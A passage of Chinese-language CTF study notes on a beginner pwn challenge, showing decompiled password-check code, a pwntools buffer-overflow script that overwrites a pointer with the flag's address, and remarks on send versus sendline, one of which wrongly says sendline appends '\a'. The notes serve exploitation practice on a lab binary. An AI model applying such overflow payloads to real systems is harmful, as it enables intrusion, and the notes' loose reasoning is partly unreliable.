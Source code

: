 ```c
  if ( !strcmp(s, PASSWORD) )
    v6 = success_message;
  puts(v6);
```

我们找一找PASSWORD：

```c
.rodata:080487C8 aPSsw0rd        db 'P@SSW0RD',0      
```

所以我们应该输入P@SSW0RD吗？

不对，是P@SSW0RD加上NUL，也就是**\0**。

不然字符串比较，到最后一个，你有\0，我没有\0，那这也算比较失败。当然，C语言字符串我还没有研究通透，暂且为止。

exp:

```python
from pwn import *
p=process('./just_do_it')
context.log_level='debug'
p.recvuntil("Input the password.\n")
flag=0x0804A080
payload=b'a'*(0x20-0xc)+p32(0x0804A080)
p.sendline(payload)
p.interactive()
```

这是sendline：

![image-20220414165147757](Nightmare Heap.assets/image-20220414165147757.png)

这是send：

![image-20220414165227636](Nightmare Heap.assets/image-20220414165227636.png)

明显能够看到差距，sendline多了一个**\a**。

send的话，在

```c
[*] Switching to interactive mode
```

之后，还要自己按一下回车键才可以回显。





# Linux

Linux grep 命令用于查找文件里符合条件的字符串。

Binutils：


